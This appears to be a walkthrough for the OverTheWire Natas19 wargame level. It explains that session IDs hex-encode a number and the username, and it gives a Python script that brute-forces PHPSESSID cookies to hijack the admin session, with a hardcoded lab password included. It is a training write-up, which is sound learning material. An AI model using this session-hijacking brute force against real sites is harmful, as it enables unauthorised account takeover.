 # 🔐 Natas19 Walkthrough

Loggin on to `natas19` we are greeted with:

***This page uses mostly the same cde as the previous level, but session IDs are no logner sequential...***

That means the `SESSID` pattern is most likely different, not just `1-640` in plain text. Let's try to put a test username and password into the form and check what `SESSID` we get in the coockie cache:

```
INPUT:
    Username: test
    Passoword: test

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache.***

```
RMB -> inspect -> data -> cookies

PHPSESSID = 33352d74657374
```

This is clearly a hex number, hence the `d`. Let's decode it using [cyber-chef](https://gchq.github.io/CyberChef/)

![alt text](image.png)

as you can see, the `username` is in the `PHPSESSID`, naturally we should try inputing `admin` in the username cause that will most likely be the admin's session.

```
INPUT:
    Username: admin
    Passoword: admin

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache*** again.

```
RMB -> inspect -> data -> cookies

PHPSESSID = 3134392d61646d696e
```
decoding...

<div align="center">
<img src="https://raw.githubusercontent.com/saladtopfive/OTWnatas-walkthrough/main/natas19/image-1.png" alt="Cyberchef screenshot">
</div>


```
2d61646d696e = -admin
```

In order to find the admin's correct session now we need to bruteforce the rest of the hex. That's again where python comes in to play.

## 🤖 Python solution

```python
import requests,re,sys

# === CONFIG === 
url = "http://natas19.natas.labs.overthewire.org"
username = "natas19"
natas19_password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas19...")

while phpsesidMin <= phpsesidMax:

    # Iterate through chronological hex characters
    stringHex = "".join("{:02x}".format(ord(c)) for c in str(phpsesidMin))
    adminHex = "2d61646d696e" # -admin

    # Inject the SESSID with chronological hex  
    sesID = "PHPSESSID=" + stringHex + adminHex
    log_progress_inline(sesID)

    headers = {'Cookie': sesID}
    response = requests.get(url,headers=headers, auth=(username,natas19_password),verify=False)

    if "You are an admin." in response.text:

        # Get the password from website output
        match = re.search(r"Password:\s*([^\s<]+)", response.text)        
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas20 password: {password}")
            break
    phpsesidMin = phpsesidMin + 1
```

The whole script with console formatting is avaliable in the natas19 directory, this code is only a **walkthrough** version with comments so you know whats going on. The output should provide you with the password for natas20  `(:`.

